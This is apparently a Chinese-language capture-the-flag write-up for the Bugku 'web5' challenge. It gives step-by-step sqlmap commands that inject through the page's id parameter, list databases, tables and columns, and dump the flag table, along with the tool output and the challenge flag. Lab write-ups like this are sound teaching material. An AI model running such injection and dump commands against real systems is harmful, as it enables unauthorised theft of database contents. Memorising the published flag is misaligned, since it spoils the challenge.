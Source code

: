 ## web5
点一下各个页面，发现点击flag的链接是http://6fe97759aa27a0c9.bugku.com/?mod=read&id=1
于是尝试对该链接进行sqlmap自动注入，注入命令如下：
```shell
# 查询数据库
sqlmap -u "http://6fe97759aa27a0c9.bugku.com/?mod=read&id=1" --batch -p "id" --dbs
# 返回结果
#available databases [3]:
#[*] information_schema
#[*] test
#[*] web5

# 查询web5数据库的表名
sqlmap -u "http://6fe97759aa27a0c9.bugku.com/?mod=read&id=1" --batch -p "id" -D web5 --table
# 返回结果
#Database: web5
#[3 tables]
#+-------+
#| flag  |
#| posts |
#| users |
#+-------+

# 查询flag表的列名
sqlmap -u "http://6fe97759aa27a0c9.bugku.com/?mod=read&id=1" --batch -p "id" -D web5 -T flag --column
# 返回结果
#Database: web5
#Table: flag
#[1 column]
#+--------+--------------+
#| Column | Type         |
#+--------+--------------+
#| flag   | varchar(255) |
#+--------+--------------+

# 爆数据
sqlmap -u "http://6fe97759aa27a0c9.bugku.com/?mod=read&id=1" --batch -p "id" -D web5 -T flag -C flag --dump
# 返回结果
#Database: web5
#Table: flag
#[1 entry]
#+----------------------------------------+
#| flag                                   |
#+----------------------------------------+
#| flag{320dbb1c03cdaaf29d16f9d653c88bcb} |
#+----------------------------------------+
```
所以flag为
```
flag{320dbb1c03cdaaf29d16f9d653c88bcb}
```
